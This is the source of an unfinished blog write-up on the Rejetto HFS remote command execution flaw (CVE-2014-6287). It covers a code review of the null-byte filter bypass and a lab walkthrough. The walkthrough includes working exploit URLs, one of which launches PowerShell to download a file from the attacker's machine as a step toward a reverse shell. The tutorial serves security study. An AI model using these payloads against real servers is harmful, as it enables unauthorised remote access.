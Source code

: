```yaml
---
layout: post
title:  "Rejetto HFS Remote Command Execution CVE2014-6287"
categories: [Vulnerabilities]
tags: [command execution, exploit, python]
draft: true
---
```


### Introduction

On September 12th 2014, a vulnerability found within HttpFileServer was reported that allowed attackers to remotely execute commands on the affected device, this was caused due to poor validation on user input, which would allow an attacker to execute arbitary commands. The bug was reported in the `findMacroMarker()` function in the `parserLib.pas` file.

### So, How does it work?

By performing whats known as [NullByte Injection](http://projects.webappsec.org/w/page/13246949/Null%20Byte%20Injection) we can bypass the sanity checking written in that function thus allowing us to script over HFS without any restrictions in place. This is because the RegEx does not correctly handle the nullbyte characters which is what allows us to escape the filter. If you want to know more about Null Byte Injection you can also read my [blog post](https://linxz.co.uk/attacks/2018/11/20/NullByte-Injection.html) on it.

If we send a nullbyte as a paramter when performing a search on the affected device then we can escape the filter of forbidden characters thus allowing us to execute arbitary commands on the device. As an example, take this request here `http://localhost:80/search=%00{.exec|+C:\Windows\system32\ping.exe+10.10.14.11}` as you can see we've got our nullbyte which allows us to bypass the sanity checking, then we're sending a command to tell the machine to run `ping.exe` and ping that IP address. You can learn more about [HFS Scripting Here.](http://www.rejetto.com/wiki/index.php/HFS:_scripting_commands). Now that we know we can execute commands remotely, we can now leverage this in order to setup a reverse shell to the affected device thus giving us access to it with the same privilege level as the account the software is running on.

### Code Review

There's not a massive amount of code for us to review here however, because HFS is an open-source program we can look at both the affected & fixed code, which is nice! So, let's first look at the vulnerable function within `parserLib.pas`.

```Pascal
function findMacroMarker(s:string; ofs:integer=1):integer;
begin result:=reMatch(s, '\{[.:]|[.:]\}|\|', 'm!', ofs) end;
```

As you can see, the vulnerable code is incredibly small, the only issue is that it does not correctly handle the nullbyte we send and thus that gives us the ability to script over HFS with no limitations. If we look in the `scriptLib.pas` file we can see where this function is called.

```Pascal
function noMacrosAllowed(s:string):string;
// prevent hack attempts
var
  i: integer;
begin
i:=1;
  repeat
  i:=findMacroMarker(s, i);
  if i = 0 then break;
  replace(s, '&#'+intToStr(charToUnicode(s[i]))+';', i,i);
  until false;
result:=s;
end; // noMacrosAllowed
```

As you can see, the function in which this function is called is actually meant to stop people passing macros into a URL. However, there is no handling for a null byte which as we mentioned, that's where the problem lies. In order to fix this issue a function called `enforceNUL(s)` was added.

```Pascal
function noMacrosAllowed(s:string):string;
// prevent hack attempts
var
  i: integer;
begin
i:=1;
enforceNUL(s);
  repeat
  i:=findMacroMarker(s, i);
  if i = 0 then break;
  replace(s, '&#'+intToStr(charToUnicode(s[i]))+';', i,i);
  until false;
result:=s;
end; // noMacrosAllowed
```

As you can see, before it executes `findMacroMarker` it will first run this `enforceNUL` function, let's take a look at what this function does, which is defined in `utillib.pas`.

```Pascal
procedure enforceNUL(var s:string);
begin
if s>'' then
  setLength(s, strLen(@s[1]))
end; // enforceNUL
```

Now, my Pascal knowledge isn't the best however as far as I can tell this function basically removes the first character so that you cannot inject a `%00` into the URL, I could be wrong so if anyone knows some Pascal and would like to help me understand this better please feel free to contact me on Twitter @LinxzSec or @Linxz on Discord, thanks! You can obtain all of the source code for HFS from Source Forge.

### Exploit

Usually I test things against Metasploitable 2 however this vulnerability is not present in MS2 and thus in the below examples I am testing it against my own machine. I'm running HFS 2.3b on my Windows box whilst exploiting it using my Kali VM. I will show you how to execute this exploit both manaully and with Metasploit.

Firstly, let's test that we're running an affected version (although in this case we know we are) we will start out with sending a simple ping in a command back to our device whilst simultaneously running TCPDump on our attacking machine. Start by running HFS on your machine, make sure you can connect to it via the browser.

![Connection](LinxzFade.github.io/assets/images/2018-11-20/2018-11-20.PNG)

Now that we can see our device as being up we can move into the actual exploitation of the device, we will first look at exploiting this manually.

#### Manual Exploitation

Before we begin to exploit this we're going to make sure that our device is running the vulnerable version, even though we know it is and we can confirm with `nmap ip -sV` we're just going to do a quick test, we will first try to get the device to execute a ping back to our attacking machine.

First, setup a tcpdump using `tcpdump -i eth0 ICMP` leave that running and capturing packets in a terminal, then browse to your webserver with the following URL `http://192.168.139.1/?search=%00{.exec|C:\Windows\System32\ping.exe+192.168.139.138.}` obviously you will need to replace the IP addresses else this won't work, when you run this what you should see is your tcpdump picking up packets, you will also see a terminal open on the Windows device if you're using it (for example in my case I have three screens and I can see the terminal open when I press enter in my Kali VM). Now, what we did here was verify that the version is affected by sending a payload to the device, in this case we just told it to execute ping.exe and then ping the ip address `192.168.139.138` which is the address of my Kali VM. It's worth noting that it seems you *must* use a full stop at the end of your command else the server will not execute it, at least that's in my experience.

```bash
root@LinxzSecKali:~# tcpdump -i eth0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
12:11:59.722051 IP 192.168.139.1 > LinxzSecKali: ICMP echo request, id 1, seq 33, length 40
12:11:59.722080 IP LinxzSecKali > 192.168.139.1: ICMP echo reply, id 1, seq 33, length 40
12:11:59.727859 IP 192.168.139.1 > LinxzSecKali: ICMP echo request, id 1, seq 34, length 40
12:11:59.727886 IP LinxzSecKali > 192.168.139.1: ICMP echo reply, id 1, seq 34, length 40
12:11:59.731815 IP 192.168.139.1 > LinxzSecKali: ICMP echo request, id 1, seq 35, length 40
12:11:59.731918 IP LinxzSecKali > 192.168.139.1: ICMP echo reply, id 1, seq 35, length 40
```

Next we need to exploit this vulnerability in order to get a reverse shell, we know the RCE is there so let's figure out how we can leverage that to get full access to the account that's running the service. So, as we've mentioned the next step was to get a reverse shell! I came across the [following repo](https://github.com/samratashok/nishang) made by Samratashok which contains a lot of different PowerShell tools for offensive pen-testing. We're going to use some of these tools as there is one in here that will allow us to create a reverse shell on the target device, this is helpful because it means we don't have to build a script ourselves. (Yes I realise this section is "manual exploitation" however I think using a script here is much more efficient.)

So, we have the script, now we need to figure out how we can serve it to the target device so that we can send a payload to execute it. Well, we can use a variety of methods, in this case I'm going to use [SimpleHTTPServer.py](https://github.com/LinxzFade/Python-Hacking-Tools/blob/master/SimpleHTTPServer/SimpleHTTPServer.py) to achieve this. Basically, the script above is going to setup a HTTP Server on the specified port, and give any machine access to the directory that it's running in on that port, see where I'm going with this? Firstly, let's test our victim machine can access our attacking machine while we run `SimpleHTTPServer.py` in order to do this I am going to send the following PowerShell command to the device via my browser.

```PowerShell
http://192.168.139.1/?search=%00{.exec|+C:\WINDOWS\Sysnative\WindowsPowerShell\v1.0\powershell.exe%20-NoProfile%20-ExecutionPolicy%20unrestricted%20-Command%20(new-object%20System.Net.WebClient).Downloadfile(%27http://192.168.139.138:8000/test%27,%20%27C:\windows\temp\test%27).}
```

At the same time `SimpleHTTPServer.py` is going to be running in my terminal, as you can see I'm connecting to 192.168.139.138 on port 8000 which is my Kali machine & the port I've configured the HTTP Server to be running on, in the PS command above I am trying to donwnload "test" however that file does not exist and thus I get the below response from `SimpleHTTPServer.py`

```Bash
root@LinxzSecKali:~/Documents/Scripts/Python# python3 SimpleHTTPServer.py 8000
[+] Simple HTTP Server!
[+] Running Server...
192.168.139.1 - - [27/Nov/2018 18:39:04] code 404, message File not found
192.168.139.1 - - [27/Nov/2018 18:39:04] "GET /test HTTP/1.1" 404 -
192.168.139.1 - - [27/Nov/2018 18:39:04] code 404, message File not found
192.168.139.1 - - [27/Nov/2018 18:39:04] "GET /test HTTP/1.1" 404 -
```

but, that doesn't matter! We expected that behaviour and now we know that our python HTTP server is working, we can now use this to get the victim to download our PowerShell reverse shell script that we briefly mentioned earlier

#### Metasploit Exploitation

### Python Exploitation

### References

[SecLists Bug Tracker](https://seclists.org/bugtraq/2014/Sep/85)

[HFS Scripting](http://www.rejetto.com/wiki/index.php/HFS:_scripting_commands)

[NullByte Injection](http://projects.webappsec.org/w/page/13246949/Null%20Byte%20Injection)

[HFS Patchnotes](http://www.rejetto.com/hfs/?f=wn)

[HFS 2.3C](https://sourceforge.net/projects/hfs/files/HFS/2.3c/)

[Exploit DB](https://www.exploit-db.com/exploits/34668/)

[Rapid7 Module](https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec)

[Metasploit Module](https://www.exploit-db.com/exploits/34926/)
